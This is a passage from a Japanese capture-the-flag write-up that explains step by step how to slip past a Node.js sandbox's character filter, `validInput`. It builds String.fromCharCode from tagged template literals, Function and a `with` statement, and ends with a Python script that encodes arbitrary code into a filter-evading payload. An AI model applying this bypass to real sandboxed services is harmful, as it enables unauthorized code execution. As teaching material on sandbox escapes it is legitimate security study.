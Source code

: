 `String.fromCharCode` にアクセスするには `String.fromCharCode` や `String['fromCharCode']` のような方法がありますが、いずれも `validInput` では許可されていない文字が含まれているためそのままでは使えません。適当な関数で `.` を作り、何らかの方法で文字列を結合して `String.fromCharCode` という文字列を作り、`eval('String.fromCharCode')` で関数そのものを手に入れましょう。ただ、以下のようなコードで一見いけそうに見えますが、

```javascript
eval`String${atob`Lg`}fromCharCode`
```

これは `eval(["String","fromCharCode"],".")` に相当し、`eval` は第一引数のみを実行するためうまくいきません。これに対し、[`Function`](https://developer.mozilla.org/ja/docs/Web/JavaScript/Guide/Obsolete_Pages/Predefined_Core_Objects/Function_Object) は最後の引数を関数の本体とし、それ以外の引数についてはその関数の仮引数名として解釈します。以下のようなコードは、

```javascript
Function`a${`return String${atob`Lg`}fromCharCode`}`
```

`Function(["a",""],"return String.fromCharCode")` に相当し、これは `function (a) { return String.fromCharCode }` のような関数になります。しかしながら Node.js にはデフォルトでは `atob` (Base64 デコードする関数) がありません。別の方法で `.` を作りましょう。

ソースコードを眺めていると、sandbox から参照できる変数として、呼び出すと引数を `(` `)` で囲った文字列を返す `par` という関数と、`"There is no help on the way."` という文字列が入っている `help` があることがわかりました。`help` には `.` が含まれていますから、これを切り出すのが楽でしょう。

文字列の一部を切り出す方法として `help.substr(x, y)` や `help.charAt(x)`、あるいは `help[x]` のような方法が考えられますが、やはりいずれも `validInput` では許可されていない文字が含まれています。ただ、`par` 関数によって `(` `)` については作ることができますから、これを利用できないでしょうか。

JavaScript には `with` 文というあまり知られていない構文があり、以下のように `.` や `[` `]` を使わずともそのオブジェクトのプロパティにアクセスすることができます。

```javascript
with (console) log('test'); // test が console.log で出力される
```

これを利用して、以下のような `help.charAt(27)` に相当するコードで `.` を作り出すことができました。

```javascript
Function`a${`with ${`${par`help`}`} return charAt${par`27`}`}```
```

先程のコードの `atob` を呼び出している部分をこれに置き換えることで、`String.fromCharCode` を取得することができました。

```javascript
Function`a${`return String${Function`a${`with ${`${par`help`}`} return charAt${par`27`}`}```}fromCharCode`}```
```

ちゃんと動いているか確認しましょう。`String.fromCharCode(65, 66, 67)` に相当するコードを作り、実行するとちゃんと `ABC` と出力されました。やった!

```javascript
Function`a${`return String${Function`a${`with ${`${par`help`}`} return charAt${par`27`}`}```}fromCharCode${par`65${1}66${1}67`}`}```
```

ここまでのまとめとして、好きなコードを実行できるように `eval(String.fromCharCode(...))` に相当するコードを出力するスクリプトを書きましょう。

```python
template = '''
Function`a${Function`a${`return String${Function`a${`with ${`${par`help`}`} return charAt${par`27`}`}```}fromCharCode${par`XXXXX`}`}```}```
'''.strip()
payload = '''
return 7*7
'''.strip()
print(template.replace('XXXXX', '${1}'.join(str(ord(c)) for c in payload)))
```
